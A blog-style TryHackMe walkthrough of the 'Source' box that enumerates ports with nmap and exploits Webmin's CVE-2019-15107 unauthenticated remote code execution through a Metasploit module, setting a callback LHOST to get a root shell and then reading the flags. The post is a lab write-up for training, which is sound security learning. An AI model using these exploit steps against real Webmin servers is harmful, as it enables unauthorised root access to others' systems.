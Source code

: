 ```yaml
---
layout: post
title: "Source - TryHackMe"
date: 2020-07-11
excerpt: "Walkthrough for Source on TryHackme"
tags: [Source, TryHackMe, Webmin, CVE-2019-15107]
comments: false
---
```




This is an easy box on [TryHackMe](https://tryhackme.com) based on a recent Webmin exploit. Here are the steps to follow to own this box.

First, let's enumerate the box with nmap with **nmap -p- -vv -T4 [machine ip]**.

This shows 2 ports open, 22 (ssh) and 10000 (typically used for webmin)

![Source nmap](/assets/img/Source1.png)

Let's pull up the site on port 10000 with **https://[machine ip]:10000**. This site is using a self signed certificate, so accept the certificate and you will be presented with a webmin login page. A quick Google search shows you that one of the latest CVEs for Webmin was CVE-2019-15107, which allows for remote code execution without authentication. This is because of a bug in a parameter in password_change.cgi. Let's launch Metasploit with **msfconsole** and run **search webmin 1.920**. One of the results will include an exploit we can use.

![Source Metasploit](/assets/img/Source2.png)

Let's run **use exploit/linux/http/webmin_backdoor** followed by **show options**. You should see a screen similar to the following:

![Source exploit options](/assets/img/Source3.png)

Let's run **SET RHOSTS [machine ip]**, **SET SSL true**, **SET LHOST [your VPN IP] **and then once set, use **run** to attempt the exploit.

![Source run exploit](/assets/img/Source4.png)

You should get a shell within a few moments.

![Source root shell](/assets/img/Source5.png)

Run **whoami** and you will see you have root access.

![Source whoami](/assets/img/Source6.png)

Let's upgrade our shell with **python -c 'import pty; pty.spawn("/bin/sh")'**. Now, let's navigate to the main user home directory with **cd /home** and run **ls** to list the user directories on this server. You will see that there is a user name of **dark** here. 

![Source enumerate user home](/assets/img/Source7.png)

Let's go into his directory with **cd dark** and run **ls -al** to list directory contents. You will see a **user.txt** file, let's run **cat user.txt** and you now have the user flag.

![Source user flag](/assets/img/Source8.png)

Next, let's navigate to /root with **cd /root** and run **ls**. You will see a file named root.txt. Let's view it's contents with **cat root.txt**

![Source root flag](/assets/img/Source9.png)
